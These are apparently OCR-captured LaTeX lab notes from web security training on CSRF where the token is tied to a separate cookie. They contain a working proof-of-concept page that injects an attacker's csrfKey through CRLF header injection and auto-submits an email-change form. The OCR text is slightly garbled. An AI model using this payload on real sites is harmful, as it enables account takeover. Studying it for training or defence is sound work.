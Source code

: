 \documentclass{article}
\begin{document}
\begin{enumerate}
            	\begin{lstlisting}[frame=single]
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6
atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
            \end{lstlisting}
            
\underline{We have to see if the CSRF token is tied to CSRF cookie NOT the session cookie}\\
\textbf{Step 1:} Check if the CSRF token is tied to CSRF cookie
\begin{itemize}
    \item Sumbit an invalid CSRF token
    \item Sumbit a valid CSRF token but from another user (from private window)
\end{itemize}

\textbf{Step 2:} Check if the CSRF token is tied to CSRF cookie NOT the session cookie
\begin{itemize}
    \item Sumbit a valid CSRF token and CSRF cookie from another user to see if the session cookie also tied to them or not
\end{itemize}
if not this is good news that means that the session handling system and the csrf defense mechanism are not tied together so what we need in order to exploit this vulnerability is to be able to inject an http cookie called csrf key and inject our own\\
The idea is to make a malicious website that inject our own csrf cookie into the user browser
\newpage
the CSRF POS
            	\begin{lstlisting}[frame=single]
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
	<body>
		<form action="https://website.nett\/my-account/change-ema
		il" method="POST">
		
			<input type="hidden" name="email" value="testma
			il310&#64;normal&#45;user&#46;net" />
			
			<input type="hidden" name="csrf" value="QHBtrtc
			T4hitwv8Q6I2DVEYLwBJnVSpn" />
			
			<input type="submit" value="Submit request" />
		</form>
		
<img src="https://website.net/?search=sdfdsfdsf%0D%0ASet-Cookie%3A+cs
rfKey%3Dk6iDX1lTVk0e0CuPbGPAamOUVhBZ0HNX" onerror="document.forms[0].subm
it()">
</body>
</html>
            \end{lstlisting}
So when the user open the link his browser will set the hacker's csrfkey cookie and by using the hacker CSRF token also $\Longrightarrow$ the attacker is able to change the email


\end{enumerate}
\end{document}
